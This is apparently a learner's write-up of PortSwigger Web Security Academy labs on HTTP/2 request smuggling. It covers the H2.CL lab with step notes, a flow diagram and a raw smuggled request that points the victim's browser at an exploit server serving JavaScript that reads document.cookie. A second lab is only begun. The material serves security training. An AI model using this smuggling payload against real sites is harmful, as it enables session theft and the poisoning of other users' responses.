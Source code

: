 # Laboratories http/2 request smuggling

## Lab: H2.CL request smuggling

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, perform a request smuggling attack that causes the victim's browser to load a malicious JavaScript file from the exploit server and call alert(document.cookie). The victim user accesses the home page every 10 seconds.

This lab supports HTTP/2 but doesn't advertise this via ALPN. To send HTTP/2 requests using Burp Repeater, you need to enable the Allow HTTP/2 ALPN override option and manually change the protocol to HTTP/2 using the Inspector.

Please note that this feature is only available from Burp Suite Professional / Community 2021.9.1.


This laboratory its very easy

```mermaid
graph TD
A[1.Disable auto content-lenght</br>2.Allow http2 ALPN override</br>3.Change to http2 request]-->B[1. Go exploit server</br>2. change url to resources</br> 3. add in body alertdocument.cookie]-->C[Change url and url exploit in request]-->D[Send request you can see below many times]
```

```html
POST / HTTP/2
Host: 0a6b002c04545beac0b50c5e00a7004e.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0aec005b04305ba2c0110c4701670038.web-security-academy.net
Content-Length: 5

x=1
```
![](assets/2022-08-02-12-54-48.png)

## Lab: Response queue poisoning via H2.TE request smuggling

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.
